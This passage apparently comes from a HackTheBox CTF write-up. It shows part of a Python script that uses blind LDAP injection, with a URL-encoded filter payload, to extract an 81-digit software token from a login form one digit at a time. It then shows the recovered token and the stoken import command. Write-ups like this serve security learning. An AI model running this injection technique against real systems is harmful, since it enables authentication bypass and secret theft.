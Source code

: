```
	response = req.text
	return response

def check_response(response):
	if "Cannot login" in response:
		return True
	else:
		return False

def exploit():
	global token
	n_list = [n for n in range(10)]
	for i in n_list:
		payload = "%2A%29%28uid%3D%2A%29%29%28%7C%28pager%3D{}{}%2A".format(token,str(i))
		response = send_payload(payload)
		if check_response(response):
			token+=str(i)

token = ""
print(YELLOW + "[*] Extracting Token")
while len(token) != 81:
	exploit()
	sys.stdout.write("\r" + YELLOW + "[*] Status : " + token)
	sys.stdout.flush()
else :
	print(GREEN + "\n[!] Done !")
	print(GREEN + "[*] Token : " + token)
```
<br>
![](/images/hackthebox/ctf/8.gif)
<br> It took some minutes to finish and now we have the token :
![](/images/hackthebox/ctf/9.png)
```
285449490011357156531651545652335570713167411445727140604172141456711102716717000
```
<br> I installed [`stoken`](https://github.com/cernekee/stoken) (`apt-get install stoken`), Then I imported the token :
```
stoken import --token 285449490011357156531651545652335570713167411445727140604172141456711102716717000
```